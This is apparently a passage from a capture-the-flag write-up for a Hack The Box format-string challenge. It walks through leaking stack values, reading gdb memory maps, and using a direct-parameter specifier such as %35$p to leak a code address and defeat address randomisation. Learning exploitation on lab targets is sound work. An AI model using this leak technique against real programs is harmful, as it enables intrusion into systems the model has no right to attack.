 ```
0x7f28befdfa23 (nil) 0x7f28bef06b82 0x7ffc6df46b50 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x20702520702520 (nil) 0xa8716b068a2d4d00 0x7ffc6df46c80 0x558aecf6c2b3 0x7ffc6df46d70 0xa8716b068a2d4d00 (nil) 0x7f28bee27565 0x7ffc6df46d78 0x16dfe8000 0x558aecf6c284 0x7ffc6df47059 0x558aecf6c2d0 0x6abbc2b8a3ffaee0 0x558aecf6c0c0 (nil) (nil) (nil) 0x954319507adfaee0 0x94eabf7c49cbaee0 (nil) (nil) (nil) 0x1 0x7ffc6df46d78 0x7ffc6df46d88 0x7f28bf036220 (nil) (nil) 0x558aecf6c0c0 0x7ffc6df46d70 (nil) (nil) 0x558aecf6c0ee 0x7ffc6df46d68 0x1c 0x1 0x7ffc6df4732a (nil) 0x7ffc6df47333 0x7ffc6df47343 0x7ffc6df47395 0x7ffc6df473a8 0x7ffc6df473bc 0x7ffc6df473eb 0x7ffc6df47425 0x7ffc6df47446 0x7ffc6df47472 0x7f28befdfa23 (nil) 0x7f28bef06b82 0x7ffc6df46b50 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520000a20 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 
```


Now let's quickly open in gdb and run "vmmap", to see which addresses look like code and which looks like stack:
```
    0x555555554000     0x555555555000 r--p     1000 0      /home/cave/CTF/HTB/pwn/format_/format
    0x555555555000     0x555555556000 r-xp     1000 1000   /home/cave/CTF/HTB/pwn/format_/format
    0x555555556000     0x555555557000 r--p     1000 2000   /home/cave/CTF/HTB/pwn/format_/format
    0x555555557000     0x555555558000 r--p     1000 2000   /home/cave/CTF/HTB/pwn/format_/format
    0x555555558000     0x555555559000 rw-p     1000 3000   /home/cave/CTF/HTB/pwn/format_/format
    0x7ffff7dbf000     0x7ffff7dc1000 rw-p     2000 0      anon_7ffff7dbf
    0x7ffff7dc1000     0x7ffff7de7000 r--p    26000 0      /usr/lib/x86_64-linux-gnu/libc-2.33.so
    0x7ffff7de7000     0x7ffff7f52000 r-xp   16b000 26000  /usr/lib/x86_64-linux-gnu/libc-2.33.so
    0x7ffff7f52000     0x7ffff7f9e000 r--p    4c000 191000 /usr/lib/x86_64-linux-gnu/libc-2.33.so
    0x7ffff7f9e000     0x7ffff7fa1000 r--p     3000 1dc000 /usr/lib/x86_64-linux-gnu/libc-2.33.so
    0x7ffff7fa1000     0x7ffff7fa4000 rw-p     3000 1df000 /usr/lib/x86_64-linux-gnu/libc-2.33.so
    0x7ffff7fa4000     0x7ffff7faf000 rw-p     b000 0      anon_7ffff7fa4
    0x7ffff7fc3000     0x7ffff7fc7000 r--p     4000 0      [vvar]
    0x7ffff7fc7000     0x7ffff7fc9000 r-xp     2000 0      [vdso]
    0x7ffff7fc9000     0x7ffff7fca000 r--p     1000 0      /usr/lib/x86_64-linux-gnu/ld-2.33.so
    0x7ffff7fca000     0x7ffff7ff1000 r-xp    27000 1000   /usr/lib/x86_64-linux-gnu/ld-2.33.so
    0x7ffff7ff1000     0x7ffff7ffb000 r--p     a000 28000  /usr/lib/x86_64-linux-gnu/ld-2.33.so
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000 31000  /usr/lib/x86_64-linux-gnu/ld-2.33.so
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000 33000  /usr/lib/x86_64-linux-gnu/ld-2.33.so
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]

```

So addresses with 0x7fff are stack addresses, and 0x555 addresses are code. We can see the following addresses, we see three addresses that looks like code. Let's pick one and look in gdb
```
0x558aecf6c284 0x7ffc6df47059 0x558aecf6c2d0 0x6abbc2b8a3ffaee0 0x558aecf6c0c0 (nil) (nil) (nil)
```

So one of the addresses is at the offset 35, meaning we can access it with direct parameter accessing: %35$p (this is on remote, 34 on local for some reason) - if we look in gdb we see that the address is:
```
pwndbg> x/32wgx 0x5555555550c0
0x5555555550c0 <_start>:    0x8949ed31fa1e0ff3  0xe48348e289485ed1
0x5555555550d0 <_start+16>: 0x0266058d4c5450f0  0x0001ef0d8d480000
```
